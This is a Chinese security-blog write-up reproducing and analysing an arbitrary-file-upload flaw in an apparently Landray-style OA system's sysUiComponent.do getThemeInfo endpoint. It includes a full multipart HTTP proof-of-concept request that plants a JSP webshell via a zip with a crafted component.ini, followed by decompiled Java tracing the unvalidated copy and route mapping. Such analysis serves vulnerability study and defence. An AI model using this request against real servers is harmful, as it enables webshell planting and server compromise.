






# 奇安信攻防社区 - 某 OA 漏洞复现分析

### 某 OA 漏洞复现分析

最近看有公众号公布了某凌 OA 的 0day，本着学习的心态看看是怎么个事

# 某 OA 漏洞复现分析

## 0x00 前言

最近看有公众号公布了某凌 OA 的 0day，本着学习的心态看看是怎么个事

## 0x01 前置知识

该 OA 目前是基于 spring 框架开发的，相关 spring bean 的配置在 kmssConfig 中。

在 spring 框架中 HandlerMapping 组件是处理**URL 请求映射到合适**的处理程序（Handler）上，来实现控制器与页面之间的交互（通俗点就是路由映射）。

Spring MVC 自带 3 种 HandlerMapping , 如下：

1.  **SimpleUrlHandlerMapping**: 通过配置请求路径和 Controller 映射建立关系，找到相应的 Controller。
2.  **RequestMappingHandlerMapping**: 通过注解 如@RequestMapping("/userlist") 来查找对应的 Controller。
3.  **BeanNameUrlHandlerMapping**: 通过定义的 beanName 进行查找要请求的 Controller。

而该 OA 主要是按**BeanNameUrlHandlerMapping**和**RequestMappingHandlerMapping** 来实现路由映射的，在 common 下的 spring-mvc.xml 中可以看的其配置




## 0x02 漏洞复现

首先创建一个压缩文件里面包含`component.ini`和`webshell`

其中`component.ini`配置如下：

```php
id=2023
name=check.txt
```

两者打包成压缩包，通过如下 poc 上传

```php
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=getThemeInfo&s_ajax=true HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
Content-Length: 474
Content-Type: multipart/form-data; boundary=---------------------------15610248407689
Cookie: SESSION=YmI0OGMyZDQtZDE0NC00MTQ2LWJmMzMtNWE5NDMwOTYxM2Ex
DNT: 1
Connection: close

-----------------------------15610248407689
Content-Disposition: form-data; name="file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PKx3;x4;x14;
-----------------------------15610248407689
```


访问`/resource/ui-component/2023/test.jsp`，成功解析


## 0x03 漏洞分析

根据 poc，漏洞 url 为：`/sys/ui/sys_ui_component/sysUiComponent.do`，搜索关键字在/sys/ui 目录下 spring-mvc.xml 中找的了其 bean 创建，这里是通过`BeanNameUrlHandlerMapping`将 bean name 作为路由


跟进到 SysUiComponentAction 类中，其中存在`getThemeInfo`方法，也就是我们 poc 中`method=getThemeInfo`

```java
public ActionForward getThemeInfo(ActionMapping mapping, ActionForm form, HttpServletRequest request, HttpServletResponse response) throws Exception {
        response.setCharacterEncoding("UTF-8");
        JSONObject rtnJson = new JSONObject();

        try {
            SysUiComponentForm mainForm = (SysUiComponentForm)form;
            JSONObject jsonInfo = this.getSysUiComponentService().checkExtend(mainForm.getFile());
            String extendId = jsonInfo.getString("extendId");
            String extendName = jsonInfo.getString("extendName");
            String folderName = jsonInfo.getString("folderName");
            String thumbnail = jsonInfo.getString("thumbnail");
            String folderPath = System.getProperty("java.io.tmpdir");
            if (!folderPath.endsWith("/") && !folderPath.endsWith("\\")) {
                folderPath = folderPath + "/";
            }

            folderPath = folderPath + folderName;
            File appThemeFolder = new File(this.getAppFolder(extendId));
            FileUtils.copyDirectory(new File(folderPath), appThemeFolder);
            if (StringUtil.isNotNull(thumbnail)) {
                if (!thumbnail.startsWith("/")) {
                    thumbnail = "/" + thumbnail;
                }

                rtnJson.put("fdThumbnail", "resource/ui-component/" + extendId + thumbnail);
            }

            rtnJson.put("directoryPath", extendId);
            rtnJson.put("status", "1");
        } catch (Exception var14) {
            rtnJson.put("status", "0");
            this.logger.error("获取上传部件的信息异常", var14);
        }

        response.getWriter().print(rtnJson);
        return null;
    }
```

乍眼一看好像没有解压操作，我们分析一下如下关键方法

```java
SysUiComponentForm mainForm = (SysUiComponentForm)form;
JSONObject jsonInfo = this.getSysUiComponentService().checkExtend(mainForm.getFile());
```

此处是处理传参返回一个 json 数据

来到`checkExtend`方法

```java
public JSONObject checkExtend(FormFile input) throws Exception {
    return this.checkExtend(input.getFileName(), input.getInputStream());
}
```

该 oa 对上传对象进行了封装为 FormFile，其中 filename 为上传文件名，getInputStream 为文件内容的输入流



这里首先是在临时文件夹中解压上传上了的压缩包，如果里面存在`component.ini`文件时会提取其中的`id`和`name`的值，并在 json 中返回，这里同时会返回临时压缩包名，在`ZipUtil.unZip`中可以看到在解压过程中是压缩包名作为目录文件将解压到其中



ps：这里还对防止了文件名目录穿越

然后回到`getThemeInfo`还有另一处调用

```java
folderPath = folderPath + folderName;
File appThemeFolder = new File(this.getAppFolder(extendId));
FileUtils.copyDirectory(new File(folderPath), appThemeFolder);
```

构造参数`folderPath`是系统临时文件目录+folderName，`appThemeFolder`是 web 目录的 resource/ui-component/+extendId(component.ini 中 id 的值)


随后进入`FileUtils.copyDirectory`方法（看名字应该是目录拷贝）



所以`getThemeInfo`方法的处理逻辑是

1、解压压缩包到临时文件夹

2、根据`component.ini`中 id 的值，将临时压缩文件内的内容拷贝到 resource/ui-component+id 目录下

3、因为未对文件做校验，最终导致可上传 jsp 文件

## 0x04 路由映射

poc 中`method=getThemeInfo`是如何映射到`SysUiComponentAction`中的`getThemeInfo`方法呢

我们来看看`SysUiComponentAction`的继承关系图



可以看的主要是继承了`KmssMultiActionController`，而`KmssMultiActionController`又继承自 spring 的`AbstractController`。根据 spring 执行 handle 逻辑，处理请求的逻辑在`handleRequestInternal`中实现，来看看`KmssMultiActionController`如何重载该方法的

```java
protected final ModelAndView handleRequestInternal(HttpServletRequest request, HttpServletResponse response) throws Exception {
        String methodName = this.getMethodName(this.createActionMapping(request, response), this.createActionForm(request, response), request, response, this.getParameter());
        if (StringUtil.isNull(methodName)) {
            Method executeMethod = (Method)this.strutsStyleHandleMethods.get("execute");
            return this.invokeMethod(executeMethod, StrutsStyleMethodTypes, request, response);
        } else {
            return this.chooseStyle(methodName, request, response);
        }
    }
```

首先调用`getMethodName`应该是获取根据参数获取 method 方法，this.getParameter() 返回值为`"method"`

这个`getMethodName`真正的实现在`KmssMultiActionController`子类`BaseAction`中


当请求参数存在 parameter（也就是 method 参数）返回其参数值。

然后是调用 strutsStyleHandleMethods 数组中的 execute 方法对象反射调用该方法。

```java
Method executeMethod = (Method)this.strutsStyleHandleMethods.get("execute");
return this.invokeMethod(executeMethod, StrutsStyleMethodTypes, request, response);
```

而`this.strutsStyleHandleMethods`数组的初始化是下面方法中



这里主要获取参数为`Class[]{ActionMapping.class, ActionForm.class, HttpServletRequest.class, HttpServletResponse.class};`的方法。此方法在`KmssMultiActionController`的无参构造方法中，继承的子类实现了无参构造方法所以`strutsStyleHandleMethods`会获取到子类所有符合参数的方法。

调用`this.invokeMethod`反射调用`KmssMultiActionController`的`execute`方法


大概逻辑是获取参数中`method`的值进行反射调用
